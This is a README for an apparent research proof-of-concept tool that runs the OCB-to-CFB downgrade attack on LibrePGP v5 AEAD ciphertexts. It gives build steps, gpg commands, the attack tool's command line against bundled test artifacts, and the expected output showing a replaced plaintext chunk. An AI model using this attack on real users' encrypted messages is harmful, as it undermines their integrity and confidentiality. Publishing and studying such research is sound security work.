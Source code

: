 
# Test tool for LibrePGP v5 AEAD-to-CFB downgrade attacks

This tool implements the AEAD-to-CFB (more specifically OCB-to-CFB) downgrade attack described in https://eprint.iacr.org/2024/1110 as a proof of concept.

## Building the tool

The tool only runs under Unix OS. It has been tested on Debian 10, but should run on any newer distribution as well. It requires GCC 13.1 or higher.

The following prerequisites have to be installed and the corresponding CMake variables of `v5-aead-decr-oracle` be set:

| Library        | GitHub URL                                      | Commit known to work                     | CMake variables to set                                                                        |
| ---            | --                                              | -----                                    | ---                                                                                           |
| Botan 3        | https://github.com/randombit/botan              | 3bee7a12a750c50a90d8147fa2d38c707b032592 | BOTAN_INCLUDE_DIR: set to `.../botan/build/include/public`, BOTAN_LIB_DIR: set to `.../botan` |
| args           | https://github.com/Taywee/args                  | b7d67237e8bdaa517d7fd6e4e84e1f6efa24f8c5 | TARGS_INCLUDE_DIR: set to `.../args`                                                          |
| cpp-subprocess | https://github.com/arun11299/cpp-subprocess.git | af23f338801ed19696da42b1f9b97f8e21dec5d6 | CPP_SUBPROCESS_INCLUDE_DIR: `.../cpp-subprocess`                                              |

Afterwards the tool can be built with CMake.

## Sample attack

This section describes how to execute a sample attack against a combination of a PKESK and OCB packet that is contained in the repository together with the corresponding OpenPGP private key.

### Import the test key

Before importing the test private key, consider creating a distinct key ring for it.
If it is imported into a key ring that already contains other keys, then during the attack, which performs numerous trial decryptions of manipulated ciphertexts, there will occur prompts for password entry.
This can be avoided by importing the key to a keyring of a user that has no other keys. The attack tool does not support the choice of a custom key ring. Accordingly, it is recommended to run it under a Unix user that has not other keys.

Change into the CMake build directory and execute the command
```
gpg --import ../artifacts/test-key.asc
```

### Decrypt the original plaintext
Change into the CMake build directory and execute the command
```
gpg --decrypt --show-session-key  ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_string(S), 136).
    3. return KECCAK[512](T || newX || 00, L)  // "00" is the 2-bit padding
    ```

### Run the attack to produce a manipulated ciphertext


Change into the CMake build directory and execute the command
```
./v5-aead-attack replace-chunk -u ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.pkesk.bin --iterations=100 --data-log-dir=run_time -kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914 --nb-leading-random-bytes=256  --query-repeat-count=100 --file-with-aead-packet ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
Here, the specification of the session key with `-kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914` that was determined in the previous step is optional.
It is used to detect some rare errors that can lead to a false success that will lead to failure of the attack. Remove this argument to execute the attack under realistic conditions.

You will see a lot of output and possibly password entry requests in case you have password protected keys in the key ring that is used. 

List the latest sub directory of `run_time` (under the CMake build folder). If the attack was successful, then it contains at least one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`

### Run decrypt the manipulated AEAD ciphertext
Change into the cmake build directory and execute the command (replacing the time stamp with the one of the latest run from the previous step and choosing one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`, should there
be multiple)
```
gpg --decrypt run_time/2025-03-25--10-18-00/74-pkesk-then-aead-packet-with-final-chunk-replaced
```

The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_st                                                                " is the 2-bit padding
    ```

The content of the next-to-final chunk has been replaced with whitespaces.
